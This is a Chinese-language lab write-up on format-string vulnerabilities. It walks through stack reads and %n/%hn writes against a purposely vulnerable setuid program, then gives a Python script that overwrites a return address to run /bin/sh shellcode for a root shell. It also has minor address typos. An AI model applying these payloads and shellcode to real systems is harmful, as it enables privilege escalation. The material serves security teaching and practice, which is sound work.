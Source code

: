 ## 1. 攻击一至四

### 1.1 漏洞程序和实验准备

准备如下实验程序：

```c
// vul.c

#include <stdio.h>

void fmtstr() {
	char input[100];
	int var = 0x11223344;

	// print out info for experiment purpose
	printf("Target address: %x\n", (unsigned) &var);
	printf("Data at target address: 0x%x\n", var);

	printf("Please enter a string: ");
	fgets(input, sizeof(input) - 1, stdin);

	printf(input);
	
	printf("Data at target address: 0x%x\n", var);
}

void main() {
	fmtstr();
}

```

编译程序并更改为setuid程序：

```bash
gcc -o vul vul.c
sudo chown root vul
sudo chmod 4755 vul
# 关闭地址随机化
sudo sysctl -w kernel.randomize_va_space=0
```

**攻击一、二手动输入字符串即可，此处略。**

### 1.2 攻击三：修改内存中的程序数据

首先，根据运行程序打印的值，可知变量var的地址，我的机器上为0Xbffffed04。

```bash
# 根据如下命令生成输入程序的字符串：
echo $(printf "\x04\xed\xff\xbf").%x.%x.%x.%x.%x.%n > input
# 执行程序：
./vul < input
# 变量var处的值改变
...
...
Data at target address: 0x2a # 不同机器可能数值不同
```

### 1.3 攻击四：修改内存中的程序数据为定值

该实验通过控制输出精度来写入定值。

```bash
# 包含4 + 8*4 + 10 000 000 = 0x9896a4个字符
echo $(printf "\x04\xed\xff\xbf")%.8x%.8x%.8x%.8x%.10000000x%n > input
# 执行程序
./vul < input
# 可观察到变量值的改变
Data at target address: 0x9896a4
```

### 1.4 攻击四（续）：更快的方法

该实验将var值改成0x66887799，变量var的地址为0xbfffed04。如果使用%hn写两次，因为写入值和打印字符的长度相关，而打印字符长度只会越来越长，故则先写入小的值0x6688，再写入0x7799。在小端字节序下，0X6688应写入高地址0Xbfffed06，0x7799应写入低地址0xbfffed04。

```bash
# 在第一个%hn处写入0X6688，即26248个字符。26248 - 4*3 - 8*4 = 26204，故
# 设置第一个%hn为%26204hn。同理可得第二个%hn精度为0x7799 - 0X6688 = 0X1111 = 4369。
echo $(printf "\x06\xed\xff\xbf@@@@\x04\xed\xff\xbf")%.8x%.8x%.8x%.8x%.26204x%hn%.4369x%hn > input
# 执行程序
./vul < input
# 可观察到变量值的改变
Data at target address: 0x66887799
```

## 2. 攻击五：注入恶意代码

首先准备漏洞程序：

```c
// fmtvul.c

#include "stdio.h"

void fmtstr(char *str) {
	unsigned int *framep;
	unsigned int *ret;

	// copy ebp into framep
	asm("movl %%ebp, %0" : "=r" (framep));
	ret = framep + 1;

	printf("address of input array: 0x%.8x\n", (unsigned)str);
	printf("value of the frame pointer: 0x%.8x\n", (unsigned)framep);
	printf("value of the return address: 0x%.8x\n", (unsigned)*ret);

	printf(str);
}

int main(int argc, char **argv) {
	FILE *badfile;
	char str[200];

	badfile = fopen("badfile", "rb");
	fread(str, sizeof(char), 200, badfile);
	fmtstr(str);

	return 1;
}
```

编译漏洞程序的命令如下：

```bash
gcc -z execstack -o fmtvul fmtvul.c
sudo chown root fmtvul
sudo chmod 4755 fmtvul
```

通过运行程序可知变量str的起始地址（我的机器为0xbfffecb4），可知main调用fmtstr时push到栈中的函数返回地址（frame pointer值加上4个字节，我的机器为0xbfffec8c）。**假设我们将shellcode写入距离str偏移0x90的位置，即写入0xbfffed44。那么，我们就需要将shellcode的地址0xbfffed44填充到返回地址0xbfffec8c处，按照上一个实验%hn的填充方法，即需要先将0xbfff写入0xbfffec8e，再将0xed44写入到0xbfffed8c。**

相应的脚本如下：

```python
#!/usr/bin/python3

import sys

shellcode = (
	"\x31\xc0\x31\xdb\xb0\xd5\xcd\x80"
	"\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50"
	"\x53\x89\xe1\x99\xb0\x0b\xcd\x80\x00"
).encode('latin-1')

N = 200

content = bytearray(0x90 for i in range(N))
start = N - len(shellcode)
content[start:] = shellcode

addr1 = 0xbfffec8e
addr2 = 0xbfffec8c
content[0:4] = (addr1).to_bytes(4, byteorder='little')
content[4:8] = ("@@@@").encode('latin-1')
content[8:12] = (addr2).to_bytes(4, byteorder='little')

small = 0xbfff - 12 - 19*8
large = 0xed44 - 0xbfff
s = "%.8x"*19 + "%." + str(small) + "x%hn%." + str(large) + "x%hn"
fmt = (s).encode('latin-1')
content[12:12+len(fmt)] = fmt

with open('badfile', 'wb') as wb:
	wb.write(content)
```

其中，如下行需要根据你自己的机器进行填写：

```python
...
addr1 = 0xbfffec8e
addr2 = 0xbfffec8c
...
small = 0xbfff - 12 - 19*8
large = 0xed44 - 0xbfff
s = "%.8x"*19 + "%." + str(small) + "x%hn%." + str(large) + "x%hn"
...
```

执行上述程序后，生成badfile，再执行fmtvul，可获得shell。
